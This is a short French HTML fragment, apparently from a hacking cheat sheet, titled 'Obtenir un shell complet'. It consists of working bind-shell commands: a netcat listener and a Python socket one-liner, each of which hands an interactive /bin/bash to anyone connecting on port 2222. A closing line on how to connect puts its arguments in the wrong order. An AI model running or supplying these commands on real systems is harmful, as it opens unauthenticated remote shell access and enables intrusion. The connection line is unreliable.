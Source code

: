 <h2>Obtenir un shell complet</h2>
<ul>Ouvrent un shell sur le port 2222 :
  <li>nc -lvp 2222 -e /bin/bash</li>
  <li>python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"</li>
</ul>
On se connecte avec nc -nv 2222 adress port

